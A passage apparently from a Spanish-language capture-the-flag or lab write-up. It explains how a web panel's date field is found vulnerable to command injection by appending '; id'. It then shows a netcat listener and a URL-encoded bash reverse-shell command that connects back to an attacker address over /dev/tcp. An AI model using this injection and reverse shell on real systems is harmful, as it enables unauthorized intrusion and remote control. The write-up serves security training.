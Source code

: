 
Si pensamos en lo que está haciendo el servidor, es probable que esté tomando la fecha y buscando información sobre lo que estaba sucediendo en el informe en esa fecha. Si puede hacerlo desde Python, eso está bien. Pero si necesita ejecutar algunos comandos del sistema, es posible que esté tomando nuestra entrada y construyendo el comando a partir de ella, y luego llamando algo como subprocess.run o os.system con esa cadena.

Para comprobarlo, intentaremos agregar ; id al final de la fecha. Comprobamos que hemos logrado ejecutar comandos en el panel.

<figure><img src="../../.gitbook/assets/imagen (18) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Por lo tanto, al lograr obtener un RCE, el siguiente paso será lograr establecernos una conexión al sistema.

Desde nuestra máquina atacante, nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutarems el sigueinte comando para establecernos una Reverse Shell.

```bash
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.5/443+0>%261'
```

<figure><img src="../../.gitbook/assets/4214_vmware_Ks6spiAlaS.png" alt=""><figcaption></figcaption></figure>
